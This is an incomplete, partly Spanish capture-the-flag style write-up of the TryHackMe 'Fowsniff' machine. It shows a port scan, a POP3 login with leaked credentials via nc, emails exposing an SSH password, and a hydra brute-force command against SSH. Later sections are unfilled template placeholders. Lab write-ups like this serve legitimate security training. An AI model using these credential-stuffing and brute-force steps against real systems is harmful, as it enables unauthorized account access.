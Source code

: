 # FownSniff

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: In progress
Complete: No
Created time: 4 de diciembre de 2024 21:45

## Notas

## Recopilación de información

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

PORT    STATE SERVICE VERSION

22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)

80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|*http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry
|*/

110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: UIDL CAPA AUTH-RESP-CODE SASL(PLAIN) TOP USER RESP-CODES PIPELINING

143/tcp open  imap    Dovecot imapd
|_imap-capabilities: ID more IDLE Pre-login LITERAL+ LOGIN-REFERRALS SASL-IR ENABLE have listed post-login capabilities OK IMAP4rev1 AUTH=PLAINA0001
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

- **Identificación de vulnerabilidades**
    - 22/SSH
    - 80/HTTP
    - 110/POP3
    - 143/ IMAP

Twiteer de Fownsniff

users i password hash md5: desencriptat a Crackstation

Accedir per pop3 (nc IP 110)

```bash
nc 10.10.202.197 110
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280
.
retr1
-ERR Unknown command: RETR1
list
+OK 2 messages:
1 1622
2 1280
.
retr 1
+OK 1622 octets
Return-Path: [stone@fowsniff](mailto:stone@fowsniff)
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: [20180313185107.0FA3916A@fowsniff](mailto:20180313185107.0FA3916A@fowsniff)
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```

User: S1ck3nBluff

Password: secureshell

```bash
retr 2
+OK 1280 octets
Return-Path: <baksteen@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1004)
	id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: *baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.

user : From: *baksteen@fowsniff

```

## Explotación

### Explotación 1

```bash
hydra -L user.txt -P pass.txt -f 10.10.202.197 ssh -t 4
login: baksteen   password: S1ck3nBluff+secureshell

```

### Explotación 2

Ejemplo: Encontramos el servidio FTP en el puerto 21 con capacidad de acceso son usuario anonymous.

Encontramos un archivo con …

### Explotación 3

## Explotación posterior

<aside>
💡 En esta sección, debes detallar los pasos que seguiste después de explotar con éxito la máquina. Esto incluye cosas como:

</aside>

### Escalada de privilegios

## Conclusión

<aside>
💡 En esta sección, debes proporcionar un resumen de la máquina para cuando tengas que volver a ella, puedas saber conocer de forma rápida de que se trataba

</aside>